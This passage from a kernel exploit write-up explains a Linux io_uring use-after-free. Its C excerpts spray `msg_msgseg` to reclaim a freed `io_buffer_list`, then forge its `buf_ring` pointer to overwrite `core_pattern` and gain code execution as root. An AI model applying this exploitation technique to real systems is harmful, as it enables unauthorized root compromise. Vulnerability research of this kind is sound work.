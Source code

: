 To reclaim the freed `io_buffer_list`, a structure with controllable data that can reside in the `kmalloc-cg-64` slab is required. The `msg_msgseg` seems like a suitable candidate due to its minimal 8-byte header, which makes it practical choice for crafting a fake `io_buffer_list` — particularly when targeting the `buf_ring` field at offset 0x8.

Since `io_buffer_list` is freed via `kfree_rcu()`, its release operation is handled by the RCU worker. Therefore, we must wait for several seconds before spraying `msg_msgseg`.

``` c
int main(int argc, char *argv[])
{
    // [...]
    // ==================== upgrade thread (cpu-0) ====================
    pin_on_cpu(0);
    while (1) {
        // [...]
        /**
         * If the exploit succeeds, the refcount of the 0x69 pbuf will be zero,
         * causing mmap to fail.
         *
         * Otherwise, mmap will succeed and return a valid pointer.
         */
        pbuf = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, ioring_fd, IORING_OFF_PBUF_RING + (0x69 << IORING_OFF_PBUF_SHIFT));
        if (pbuf == MAP_FAILED) {
            printf("[+] success!\n");
            break;
        }
    }

    /**
     * Since pbuf (io_buffer_list) is freed using kfree_rcu(), we need to wait
     * five more seconds (KFREE_DRAIN_JIFFIES) for the kfree_rcu_monitor() worker to wake up.
     */
    sleep(6);

    // Spray msg_msgseg to reclaim freed io_buffer_list which is in kmalloc-cg-64.
    *(unsigned long *)payload = 1; // mtype = 1
    for (int i = 0; i < SPRAY_CG_64_MSG_MSGSEG; i++)
        msgsnd(spray_cg_64_msg_queue[i], payload, (PAGE_SIZE - sizeof(struct msg_msg)) + 64 - sizeof(struct msg_msgseg), 0);
    
    // [...]
}
```

By crafting the `buf_ring` field of the victim `io_buffer_list`, we can overwrite the `core_pattern` with a controlled string, enabling the execution of a payload via memfd.

``` c
int main(int argc, char *argv[])
{
    // [...]
    /** 
     * We plan to reclaim the victim io_buffer_list with msg_msgseg, so we craft the payload to
     * a fake io_buffer_list with the address of core_pattern as ring buffer pointer.
     */
    {
        struct io_buffer_list *fake_io_bl = payload + (PAGE_SIZE - sizeof(struct msg_msg));
        fake_io_bl->buf_ring = ktext + (CORE_PATTERN_OFFSET & ~0xfff);
        fake_io_bl->refs = 0x41;
        fake_io_bl->is_mmap = 1;
    }
    // [...]

```